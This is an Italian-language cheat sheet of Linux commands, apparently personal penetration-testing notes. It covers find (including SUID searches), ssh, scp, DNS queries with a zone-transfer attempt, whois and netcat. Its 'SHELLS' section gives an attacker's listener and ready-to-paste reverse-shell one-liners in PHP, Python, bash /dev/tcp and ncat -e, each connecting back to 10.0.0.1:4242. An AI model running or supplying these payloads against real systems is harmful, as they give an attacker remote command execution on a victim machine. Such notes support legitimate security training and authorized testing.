 # LISTA COMANDI UTILI
`find`: è il comando usato per trovare un file seguendo certi criteri
	- `find /`: inizia a cercare da root
	- `-user user1`: cerca file creato da utente user1
	- `-group group1`: cerca file creato da gruppo group1
	- `-size +6c -size -10c`: cerca file con dimensione maggiore di 6byte e minori di 10 byte
	- `-perm 4000`: cerca file con permessi utente root, se 2000 file avviato con privilegi del gruppo invece, che potrebbe essere root

`ssh`: è il comando per potersi collegare ad un computer in remoto
	- `ssh username@hostname`: connettiti ad IP = hostname usando username per credenziale d'accesso
	- `-p 2020`: utilizza la porta 2020 per la connessione

`scp`: è il comando per trasferire file usando ssh
	- `scp username@hostname:/percorso/origine /percorso/destinazione/nome_file_di_destinazione`: prendi file dalla connessione ssh e salvalo in locale con nome nome_file_di_destinazione
	- `-r`: copia una intera directory

`host`: è il comando utilizzato per eseguire query DNS e ottenere informazioni sui nomi di dominio.
	- **`-t ns`**: specifica il tipo di record DNS che desideri ottenere. In questo caso, "ns" sta per "nameserver", quindi stai chiedendo di ottenere informazioni sui server dei nomi del dominio
	- **`-t mx`**: specifica il tipo di record DNS richiesto, in questo caso, "mx" per i record di scambio di posta (Mail Exchange)
	- `-l hostname.com nsztm2.digi.ninja`: prova un DNS Zone Transfer, utile per altre informazioni

`whois`: è il comando per vedere informazioni sul possesso di un dominio o di un indirizzo IP. Potrebbe interessarti il "Name Server" per DNS Zone Transfer
	`whois esempio.com`: vedi le informazioni di esempio.com

`nc`: utile per creare client/server rapidamente. Ottimo per mandare i comandi alla macchina che stiamo attaccando
	- `nc -l 1234`: inizia ad ascoltare nella porta 1234
	- `nc 127.0.0.1 1234`: connettiti alla macchina con indirizzo 127.0.0.1 alla porta 1234


# SHELLS
### Reverse shell
Nella reverse shell è l'attacker che si mette in listening e la vittima si collega, quindi

### ATTACCANTE:

```
ncat -lvnp 4242
```

### VITTIMA:

#### php
```
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("sh <&3 >&3 2>&3");'
```

#### python3
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

#### bash

```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

```
0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

```
/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

#### netcat
```
ncat 10.0.0.1 4242 -e /bin/bash
```


